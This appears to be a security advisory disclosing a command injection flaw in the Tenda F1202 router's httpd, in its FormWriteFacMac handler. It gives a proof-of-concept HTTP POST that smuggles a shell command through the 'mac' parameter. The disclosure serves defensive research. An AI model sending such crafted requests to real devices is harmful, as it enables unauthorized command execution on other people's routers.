


# F1202 Vulnerability

Vendor:Tenda

Product:F1202

Version:V1.2.0.20(408)

Download:https://www.tenda.com.cn/material/show/2671

Vulnerability: command injection

Author:Li Tengzheng

## Descriptions

We found a Command Injection vulnerability  in `httpd` , allows remote attackers to execute arbitrary OS commands from a crafted request:

In  FormWriteFacMac function,the value of the `mac` is inserted into command using `doSystemCmd`,and the value of mac will be finally executed.

<div  align="center"></div>


## Proof of Concept (PoC)

We set `mac` as **;echo "this is a command injection fault";** , and the router will execute it,such as:

```http
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.6.2
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.6.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 30

mac=;echo "this is a command injection fault"; 
```

<div  align="center"></div>